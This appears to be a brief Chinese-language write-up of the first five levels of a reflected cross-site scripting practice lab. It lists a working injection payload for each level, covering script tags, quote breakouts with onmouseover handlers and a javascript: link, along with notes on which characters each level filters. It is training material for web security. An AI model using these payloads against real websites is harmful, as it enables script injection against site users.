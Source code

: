 *level1*
反射型XSS
payload：?name=<script>alert(1)</script>

level2
payload："><script>alert(1)</script>

level3
输入1<"">''内容然后搜索，查看源代码，两个回显点均过滤特殊字符，但是单引号未过滤。

payload：1' onmouseover='alert(1)
鼠标划过输入框上面即弹窗：

level4
跟上一关一样，双引号的不同。
payload：1” onmouseover=“alert(1)

level5
script大小写、on事件被禁用：

但是双引号、单引号、尖括号都可以用
payload：1"><a href="javascript:alert(1)">

















